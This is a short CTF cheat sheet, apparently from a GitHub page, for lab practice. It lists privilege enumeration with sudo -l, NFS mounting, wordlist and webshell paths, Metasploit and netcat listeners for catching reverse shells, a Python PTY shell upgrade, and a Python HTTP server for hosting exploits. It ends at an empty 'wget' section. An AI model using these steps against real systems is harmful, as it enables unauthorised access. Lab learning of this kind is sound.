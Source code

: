 # CTF Cheat Sheet

## Commands:

```sudo -l (NOTE: lists commands a user can run as root) ```
    
```echo 10.10.165.196 ice >> /etc/hosts```
    
```mkdir /mnt/kenobiNFS```
```mount machine_ip:/var /mnt/kenobiNFS```
```ls -la /mnt/kenobiNFS```

## Wordlists:

https://wiki.skullsecurity.org/Passwords

https://web.archive.org/web/20120207113205/

http://www.insidepro.com/eng/download.shtml

/usr/share/wordlists

## Webshells:

/usr/share/webshells

## Pre-Compiled Binaries:

/usr/share/windows-binaries

## Listeners:

**metasploit:**

	use exlpoit/multi/handler
	set lhost [attackbox IP]
	set lport [attackbox port]
	run
	
**netcat:**

	nc -lvnp [port]
	
**Use the following command to spawn a PTY shell with Python:**

	python -c 'import pty; pty.spawn("/bin/bash");'
	(PTY stands for ‘pseudo-teletype’ which emulates and has the functions of a terminal without actually being one).
	
	Then ctrl+z and use stty raw -echo && fg to get tty, may need to use reset command after.
	
## Transferring Exploits:

**Python3 Simple HTTP Server:**

    	python3 -m http.server 80		(Specific to current direct ran from)
	or if python3 is default in path:
	python -m http.server 80
	
	hosted @ http://[attackbox IP]
	
**wget:**

```